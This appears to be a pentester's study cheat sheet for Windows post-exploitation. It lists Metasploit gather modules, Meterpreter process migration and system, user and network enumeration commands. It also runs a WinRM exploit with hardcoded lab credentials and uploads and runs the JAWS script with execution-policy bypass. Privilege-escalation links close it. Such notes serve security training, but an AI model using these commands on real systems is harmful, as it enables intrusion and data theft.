 # Post Exploitation

- Metasploit
    
    ```powershell
    Modules
    use post/windows/gather/win_privs
    set session 1
    run
    
    use post/windows/gather/enum_logged_on_users
    set session 
    run
    
    use post/windows/gather/checkvm
    set session 1
    run
    
    use post/windows/gather/enum_applications
    set session 1
    run
    
    use post/windows/gather/enum_av_excluded
    set session 1
    run
    
    use post/windows/gather/enum_computers
    set session 1
    run
    
    use post/windows/gather/enum_shares
    set session 1
    run
    
    use post/windows/gather/enum_patches
    set session 1
    run
    
    Meterpreter
    getuid
    getprivs
    background
    
    use post/windows/gather/enum_logged_on_users
    set SESSION 1
    run
    
    ```
    
- User info
    
    ```powershell
    shell 
    systeminfo
    hostname
    wmic qfe get Caption,Description,HotFixID,InstalledOn
    whoami /priv
    
    User & Group Enumeration
    net users
    net user administrator
    net localgroup
    net localgroup administrators
    ```
    
- Network Information
    
    ```powershell
    ipconfig /all
    route print
    arp -a
    netstat -ano
    ```
    
- Processes and services
    
    ```powershell
    Meterpreter
    ps
    pgrep explorer.exe
    migrate 2176
    
    Shell
    net start
    wmic service list brief
    tasklist /SVC
    schtasks /query /fo LIST
    netsh firewall show state
    netsh advfirewall
    netsh advfirewall firewall 
    netsh advfirewall firewall help
    netsh advfirewall firewall dump
    netsh advfirewall firewall show
    show_mount
    ```
    
- Automating
    
    ```powershell
    msfconsole
    use exploit/windows/winrm/winrm_script_exec
    set RHOSTS 10.2.21.181
    set USERNAME administrator
    set PASSWORD tinkerbell
    set FORCE_VBS true
    run
    background
    https://github.com/411Hall/JAWS
    ```
    
- JAWS
    
    ```bash
    cd C:\\
    mkdir Temp
    cd Temp
    upload /root/Desktop/jaws-enum.ps1
    shell
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    download JAWS-Enum.txt
    ```
    

Outros Recursos 

[PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)

[RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)

[Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

[Decoder's Blog](https://decoder.cloud/)

[Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)

[Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)